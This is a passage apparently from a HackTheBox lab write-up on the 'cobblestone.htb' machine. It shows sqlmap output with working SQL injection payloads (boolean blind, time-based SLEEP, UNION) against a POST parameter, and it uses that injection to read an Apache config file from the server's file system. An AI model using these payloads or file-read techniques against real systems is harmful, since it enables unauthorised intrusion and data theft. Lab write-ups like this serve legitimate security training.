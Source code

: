 ```bash
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[10:15:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:15:45] [INFO] fingerprinting the back-end DBMS operating system
[10:15:46] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[10:15:46] [INFO] the back-end DBMS operating system is Linux
[10:15:46] [INFO] fetching file: '/etc/apache2/sites-available/000-default.conf'
[10:15:46] [INFO] resumed: 3C5669727475616C486F7374202A3A38303E0A0952657772697465456E67696E65204F6E0A0952657772697465436F6E642025
do you want confirmation that the remote file '/etc/apache2/sites-available/000-default.conf' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[10:15:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:15:48] [INFO] retrieved: 1334
[10:16:04] [INFO] the remote file '/etc/apache2/sites-available/000-default.conf' is larger (1334 B) than the local file '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf' (51B)
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf (size differs from remote file)

[10:16:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 10:16:04 /2025-08-13/
```

```bash
└─$ cat /home/kali/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf
<VirtualHost *:80>
        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]
        ServerName 127.0.0.1
        ProxyPass "/cobbler_api" "http://127.0.0.1:25151/"
        ProxyPassReverse "/cobbler_api" "http://127.0.0.1:25151/"
</VirtualHost>

<VirtualHost *:80>
        ServerName cobblestone.htb

```
